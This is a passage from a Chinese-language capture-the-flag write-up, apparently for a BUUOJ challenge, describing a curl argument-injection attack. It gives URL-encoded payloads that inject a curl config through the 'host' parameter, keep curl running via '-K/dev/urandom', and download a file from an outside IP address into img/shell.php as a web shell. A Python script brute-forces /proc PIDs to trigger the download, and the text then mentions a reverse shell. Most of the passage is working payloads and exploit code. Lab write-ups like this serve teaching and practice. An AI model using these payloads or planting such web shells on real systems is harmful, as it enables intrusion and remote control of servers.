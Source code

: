 现在只需要能够命中pid，curl发起时间过短要怎么命中呢，这里有一个知识点

Linux的随机数产生接口/dev/urandom ，会不断的产生随机数，将-K的值指定为这个接口，就让curl去读取就会因为一直无法读取结束，而实现在proc中常驻，从而实现爆破pid值

第一次传参为,使curl常驻

host=-K/dev/urandom%00&cert=1%0a%0aurl="https://49.232.206.37/wumonster.txt"
output="img/shell.php"%0a%0a

?host=-K/dev/urandom%00&cacert=111%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0aurl="http://49.232.206.37/wumonster.txt"%0aoutput="img/shell.php"%0a%0a%0a%0a%0a%0a%0a

第二次为

host=-K/proc/pid/cmdline

原本一直没有命中到，直到把脚本里的:81去掉，不是很明白BUU的环境

```python
from time import sleep
import requests
for i in range(1, 1000):
    r = requests.get("http://7db9a488-bdfb-43ef-967b-5ea643b0cf6a.node4.buuoj.cn/view.php?host=-K/proc/" + str(i) + "/cmdline%00")
    if r.status_code != 200:
        sleep(1)
        r = requests.get("http://7db9a488-bdfb-43ef-967b-5ea643b0cf6a.node4.buuoj.cn/view.php?host=-K/proc/" + str(
            i) + "/cmdline%00")
    print(i)
    print(r.text)
```

反弹shell来进行交互

![Untitled](%E6%80%9D%E8%B7%AF%20e0fa6f8ee23a464bbf26d33136685e05/Untitled%202.png)
